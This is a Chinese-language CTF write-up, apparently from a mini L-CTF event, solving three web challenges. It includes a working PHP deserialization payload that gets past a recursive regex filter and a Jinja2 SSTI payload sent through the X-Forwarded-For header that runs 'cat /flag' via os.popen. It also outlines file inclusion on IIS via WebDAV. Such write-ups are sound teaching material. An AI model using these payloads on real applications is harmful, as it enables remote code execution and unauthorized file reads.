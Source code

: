 foo3->foo2->foo1，foo1里还需要绕过一次wakeup。

等下foo1里这是啥？

`preg_replace('/[^\W]+\((?R)?\)/', '', $this->var)`

查了一下`?R`，PHP manual中这样说：

**”首先，它匹配一个左括号。 然后它匹配任意数量的非括号字符序列或一个模式自身的递归匹配(比如， 一个正确的括号子串)，最终，匹配一个右括号。“**

大概是这个样子`XXXX(XXXX(XXXX()))`

```
\W等价于[^A-Za-z0-9_]
+括号匹配\( ...... \)
+括号中间是XXXX(XXXX(XXXX()))
```

查到一个payload   `readfile(end(scandir(getcwd())))`

```
O:4:"foo3":1:{s:3:"var";O:4:"foo2":2:{s:3:"var";s:2:"hi";s:3:"obj";O:4:"foo1":2:{s:3:"var";"readfile(end(scandir(getcwd())));;}}}
```

（这里有个小坑，file_exists()直接将输入当成字符串对待，就直接执行了foo2里的__toString()，（我一开始以为要用echo，卡了半天）不知道是出题人有意为之还是怎么样。

 

### Personal_IP_Query| Author: blackwatch

burp加XFF头发现注入点，观察http response 发现用了 gunicorn，应该是python flask的模板注入

尝试 {{1+1}}确认是SSTI，总的来说就是各种继承直到os.popen

有过滤，一点点尝试发现是过滤了_下划线，查了一下可以用request.args获取get参数绕过

```
http://e0579dc296f4fa31220536d95e3b68b5.challenge.mini.lctf.online:1080/?class=__class__&mro=__mro__&subclasses=__subclasses__&init=__init__&globals=__globals__&popen=popen&cmd=cat /flag

X-Forwarded-For: {{ ()[request.args.class][request.args.mro][-1][request.args.subclasses]()[127][request.args.init][request.args.globals][request.args.popen](request.args.cmd).read() }}
```



### include| Author: blackwatch

#由于拿了签到题的一血触发**人类漏洞**（果然人才是最大的漏洞，详情咨询frk），拿到了两个hint **webdav**和#**smb**        参考链接https://www.anquanke.com/post/id/201060

一开始就掉坑里去了，被两处`<?php ?>`包含起来的代码不能互相调用，于是admin就是空值，空值的反序列化是什么呢，自己写了个php试了下：

```
s:0:"";
```

构造好之后返回了`TE9PS0hFUkU=.html`，直接访问会重定向到百度，burp repeater访问得到一串base64

解码之后提示访问f1na1.php，有个seehint点进去url是/f1na1.php?file=hint.php

估计是文件包含，刚才的http response里看到了IIS，就想起了了win下区分大小写，用hint.PHP试了下，成功了，这地方估计过滤了很多协议，此时就用到了webdav，百度了一个利用方法https://paper.seebug.org/1148/，一打就出来了
